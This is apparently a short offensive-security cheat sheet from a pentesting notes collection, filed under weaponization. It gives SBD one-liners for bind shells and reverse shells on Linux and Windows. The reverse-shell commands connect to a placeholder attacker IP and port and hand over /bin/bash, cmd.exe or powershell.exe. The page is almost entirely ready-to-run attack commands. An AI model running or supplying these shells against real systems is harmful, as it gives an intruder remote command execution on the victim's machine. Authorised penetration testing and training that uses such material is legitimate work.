 # SBD

## 01 - Linux

### 1.1 - Bind Shell

```
$ sbd -lvnp <target_PORT> -e /bin/bash
```

### 1.2 - Reverse Shell

```
$ sbd <attacker_IP> <attacker_PORT> -e /bin/bash
```

## 02 - Windows

### 2.1 - Bind Shell

```
C:\> sbd -lvnp <target_PORT> -e cmd.exe

C:\> sbd -lvnp <target_PORT> -e powershell.exe
```

### 2.2 - Reverse Shell

```
C:\> sbd <attacker_IP> <attacker_PORT> -e cmd.exe

C:\> sbd <attacker_IP> <attacker_PORT> -e powershell.exe
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xB - Shell Handler/Cross Platform/Manual/SBD|Shell Handler: SBD]]